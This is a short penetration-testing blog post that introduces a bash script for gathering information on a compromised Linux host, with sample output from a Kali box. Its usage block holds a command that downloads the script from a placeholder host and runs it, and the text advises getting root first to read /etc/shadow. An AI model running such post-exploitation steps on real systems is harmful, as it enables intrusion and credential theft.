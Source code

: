 ```yaml
---
layout: post
title: Linux Post Exploitation
date: '2014-12-18T21:51:00.004-07:00'
author: Sanjiv Kawa
tags:
- Bash
- infosec
- Linux
- Script
- Linux Post Exploitation
- Post
- Exploitation
comments: true
---
```

Gathering useful information from Linux box after exploiting it can be a lengthily and tedious task.
To help automate some of this process I've created a post exploitation script in bash which will gather most of the useful information for you. I still strongly suggest conducting a thorough manual investigation.

For best results try to obtain root privileges before running the script as you'll need this to access files such as /etc/shadow

Download <a href="https://github.com/skahwah/skahwah.github.io/blob/master/_data/Linux_Post.zip">here</a>
{% highlight css %}
cd /
wget http://your.box/linux_post.sh
chmod 755 linux_post.sh
./linux_post.sh > goodies.txt
{% endhighlight %}

Sample output
{% highlight css %}
 Files  
 [*] resolv.conf  
 nameserver 192.168.0.1  
 [*] motd  
 The programs included with the Kali GNU/Linux system are free software;  
 the exact distribution terms for each program are described in the  
 individual files in /usr/share/doc/*/copyright.  
 Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
 permitted by applicable law.  
 [*] issue  
 Kali GNU/Linux 1.0.9 \n \l  
 [*] passwd  
 root:x:0:0:root:/root:/bin/bash  
 daemon:x:1:1:daemon:/usr/sbin:/bin/sh  
 bin:x:2:2:bin:/bin:/bin/sh  
 sys:x:3:3:sys:/dev:/bin/sh  
{% endhighlight %}

Send me a message if you have any suggestions!
